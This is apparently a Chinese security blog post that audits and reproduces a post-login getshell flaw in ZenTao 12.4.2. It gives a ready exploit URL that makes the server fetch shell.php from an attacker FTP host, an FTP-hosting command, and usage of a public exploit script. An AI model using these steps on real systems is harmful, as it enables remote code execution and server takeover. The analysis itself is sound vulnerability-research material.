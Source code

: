 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/9j3bGmeELuXs2DeLj22faA)

![](https://mmbiz.qpic.cn/mmbiz_jpg/Ok4fxxCpBb6CNdhNAz8EQVcsbRicibC0LXyY17KBcSzaQAqCgf1mpBDAJvTpy2XVWuY7kb7kibuc6N3j8fHvmfkEQ/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_png/ldFaBNSkvHhfReibVrfKgxN97qcFx3LVvyyjt1GfHLaqE7wPAcicNCKgOmHHy9U3mdC6sqcXpSZMtt7NQOLxzJxA/640?wx_fmt=png)

前记

本文将对禅道 12.4.2 后台 getshell 漏洞进行分析，距离该版本上线已经过去 2 个多月，本漏洞会对 12.4.2 之前的版本产生影响，目前已经在新版本中修复。在复现该漏洞的时候我也读过一些网上对于该漏洞复现的文章，但是通过反复测试我发现网上所述的方法在我的环境上并不能成功复现，不知是否有情况相同的小伙伴，所以我对于漏洞点进行了审计，并成功复现，下面我们一起来分析一下。

![](https://mmbiz.qpic.cn/mmbiz_png/ldFaBNSkvHhfReibVrfKgxN97qcFx3LVvyyjt1GfHLaqE7wPAcicNCKgOmHHy9U3mdC6sqcXpSZMtt7NQOLxzJxA/640?wx_fmt=png)

代码分析

首先该漏洞需要后台管理员权限，所以我们首先登陆至后台。通过下图我们可以看到登陆后的界面 URL 为：  
http://192.168.52.141/zentaopms/www/index.php?m=my&f=index

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6CNdhNAz8EQVcsbRicibC0LXDuRX7rRbs5N9fe8nIY0O6Fy8Wh84WNfMpUtVoOQbwLTv8YZEnO3gcg/640?wx_fmt=png)

我们看到后台界面分别对 m 以及 f 参数进行传参，那么不难猜出大概就是调用 my 类下的 index 方法，我们看一下该段的代码。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6CNdhNAz8EQVcsbRicibC0LXgpA9mqfEZHiaqFa5GbFUX7xWQ0ZCic0l9ou0HTDop92m6JSP38XKwp7w/640?wx_fmt=png)

在 / module/my/lang/zh-cn.php 下可以看到存在指向 index 的方法，这验证了我们上面猜测是正确的，那么我们下面来看一下文件下载漏洞点的代码部分。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6CNdhNAz8EQVcsbRicibC0LXxgic3IdptvMWDlRbo2ndIVQaaPmBX6dib1GlqXsNice7yOVcxAwuxpk4g/640?wx_fmt=png)

漏洞是发生在 client 类下的 donwload 函数中，我们定位函数至 / module/client/control.php 中找到该方法，本段代码大致意思就是会接收三个参数 version、os、link，然后去调用 downloadZipPackage 方法进行文件下载操作，并对一些下载失败事件进行不同回显，比如 downloadFail，saveClientError 在上图的方法列表我们可以看到他们调用的方法的具体含义，这里就不再赘述，最后如果没有失败事件时间就会返回成功。在 downloadZipPackage 并不需要 os 方法，所以这在我们后期利用时也不需要传入该参数。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6CNdhNAz8EQVcsbRicibC0LXEY2LzWQbV4odV5TYcm6kua8TYYt7waAvkYYpK8z3icb0K42KIEWfQDQ/640?wx_fmt=png)

然后继续跟进 downloadZipPackage 方法中，注意重点来了，漏洞真正的产生原因就在该方法中。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6CNdhNAz8EQVcsbRicibC0LXgWb4PIoNo2DjJWyQMHBQYQVlKsBpyyKC8bATgibYAia4bnzZp8pPuvsw/640?wx_fmt=png)

我们可以看到这段代码首先对传入的 link 参数进行了 base64 解码操作，这里的 link 参数就是我们 shell 的远程地址，然后下面会通过一个正则表达式进行判断，link 地址是否以 http:// 或者 https:// 开头，如果存在则 return 返回 false 并退出方法，否则调用方法 parent::downloadZipPackage，这里其实忽略了 FTP 这一文件下载方法，也就是说我们可以通过 FTP 服务代替进行文件下载操作从而绕过正则的限制。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6CNdhNAz8EQVcsbRicibC0LX1vuAl6KkDMYEkw51QLJkFnZtEibBqvGF8zjWs9RAeYbtNxn3Jt3fpag/640?wx_fmt=png)

downloadZipPackage 方法就没有什么问题了，就是一段文件下载函数，会通过传入的 version 值创建并命名在 data 下创建的文件夹并将下载的文件保存在其中。

![](https://mmbiz.qpic.cn/mmbiz_png/ldFaBNSkvHhfReibVrfKgxN97qcFx3LVvyyjt1GfHLaqE7wPAcicNCKgOmHHy9U3mdC6sqcXpSZMtt7NQOLxzJxA/640?wx_fmt=png)

漏洞利用

那么这其实就是很清晰了，通过文章开始介绍的 m 和 f 参数的调用，我们可以对 client 类以及 download 参数进行调用，并传入 download 参数必要的 version 以及 link 参数就可以完成漏洞的利用了。这里的 link 地址是 base64 加密后的 ftp 连接地址，, 比如:

ftp://192.168.52.1/shell.php

大家可以直接使用 python 的 pyftpdlib 模块开启 FTP 服务比较方便，命令:

python -m pyftpdlib -p 21 -d . 默认开启匿名用户，不需要输入用户名密码。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6CNdhNAz8EQVcsbRicibC0LXOXXllj7YViaQMERT6sDHnwLkYpLOh0zO2viamjgPXOv5vaZbDM2MfdEQ/640?wx_fmt=png)

构建 exp 如下:

http://ip/zentaopms/www/index.php?m=client&f=download&version=1&link=ZnRwOi8vMTkyLjE2OC41Mi4xL3NoZWxsLnBocA==

可以看到回显弹窗保存成功，然后再到靶机中查看发现下载成功，保存路径至

/zentaopms/www/data/client/1/shell.php

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6CNdhNAz8EQVcsbRicibC0LXIufJibibUHZYwp1DTscZVibugpVwmib2p6xBHywQnIhAoxDk5pWmMEbDmA/640?wx_fmt=png)

连接木马，成功利用！

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6CNdhNAz8EQVcsbRicibC0LXppRAh7PjluyOdibvBibEice5gwr7phDSUe3OOqh4vBCjnRghJJf61tKbg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ldFaBNSkvHhfReibVrfKgxN97qcFx3LVvyyjt1GfHLaqE7wPAcicNCKgOmHHy9U3mdC6sqcXpSZMtt7NQOLxzJxA/640?wx_fmt=png)

漏洞利用 EXP

所以本文最突出的一个部分来了，就是我们有 EXP 啊。通过两个夜晚的努力，终于完成了，其中也碰到了不少坑，但是好在都解决了。下面由我来介绍一下他的使用方法吧。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6CNdhNAz8EQVcsbRicibC0LX3SqjvceXZmwW8CztcONq5KDqSFQiaxBdiaw6HTSUnxIownEicDtNp9bEg/640?wx_fmt=png)

构建命令: python "Zentao RCE EXP.py" -H http://192.168.52.141 -U admin -P Admin888 -f 192.168.52.1

其中 - H 指定目标主机，-U 指定后台用户名，-P 指定密码，-f 指定 VMnet8 网卡的 IP，这样虚拟机才能正常访问到物理机的 FTP 服务，当然如果测试环境也在虚拟机中则可以修改源码自动获取 IP 即可，这里是以我的环境为准所以没有这么做，也因为我觉得麻烦一点来换取兼容性更好一点是不亏的，所以小伙伴可以自行修改使用，我想这也不难，源码中也标注了修改位置。目前已经上传至 github，有兴趣的小伙伴可以自行下载测试。

EXP github 地址: https://github.com/wikiZ/Zentao-RCE

![](https://mmbiz.qpic.cn/mmbiz_png/ldFaBNSkvHhfReibVrfKgxN97qcFx3LVvyyjt1GfHLaqE7wPAcicNCKgOmHHy9U3mdC6sqcXpSZMtt7NQOLxzJxA/640?wx_fmt=png)

后记

本文到这里就以接近尾声了，因为最近搭建靶场，也有搭建这个漏洞，所以就想要写一下他的分析与利用这样的一篇文章，随着年龄的增长也越来越喜欢分享知识，以后也会坚持分享，这个漏洞公开并不久，当然我也并不是第一时间就进行分析，本文更加偏向教授代码审计的技巧而不仅仅只是复现，所以也希望能够对大家有所帮助，在测试中有问题的小伙伴可以私信我。最近想要找一份实习的工作 (其实我是看到腾讯在招实习生被香到了)，所以最近相当投入的在沉淀学习哈哈哈。

最后祝大家都能心想事成，美梦成真！

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6OLwHohYU7UjX5anusw3ZzxxUKM0Ert9iaakSvib40glppuwsWytjDfiaFx1T25gsIWL5c8c7kicamxw/640?wx_fmt=png)

  

- End -  

精彩推荐

[Tomcat 容器攻防笔记之隐匿行踪](http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649736482&idx=1&sn=bd12bf1aa97e50b87256bdca7fb1adee&chksm=888cf54dbffb7c5b308e20e86cfabeda083cf24f6edbdeaae162ae7ac3872cc807c2a2f65936&scene=21#wechat_redirect)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[巧用 Zeek 在流量层狩猎哥斯拉 Godzilla](http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649736430&idx=1&sn=8bc80f154f2414544b02de52c6b68bc9&chksm=888cf481bffb7d97aa5c9ced234abbe5f5eaa6fa243569bdbc050c0f1d1fd2173e6294b466a8&scene=21#wechat_redirect)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[入侵检测系列 1（中）基于私有协议的加密流量分析思路（Teamviewer 篇）](http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649736371&idx=1&sn=e397ff5934fd08294daa26ad07ba7260&chksm=888cf4dcbffb7dca9cc25b9c49ed48bea2a3a725b66507505c808a0f73e415cf59149d694484&scene=21#wechat_redirect)
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[笑着走向终结：Flash 喜迎最后一次更新](http://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649736292&idx=1&sn=1bbd47d850249298d575c279cd6cc5e1&chksm=888cf40bbffb7d1de50882015ce77fc31f2ef40c31ff0611d70dd15677701351a8952da6ecc7&scene=21#wechat_redirect)
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ok4fxxCpBb5ZMeq0JBK8AOH3CVMApDrPvnibHjxDDT1mY2ic8ABv6zWUDq0VxcQ128rL7lxiaQrE1oTmjqInO89xA/640?wx_fmt=gif)  

---------------------------------------------------------------------------------------------------------------------------------------------------

**戳 “阅读原文” 查看更多内容**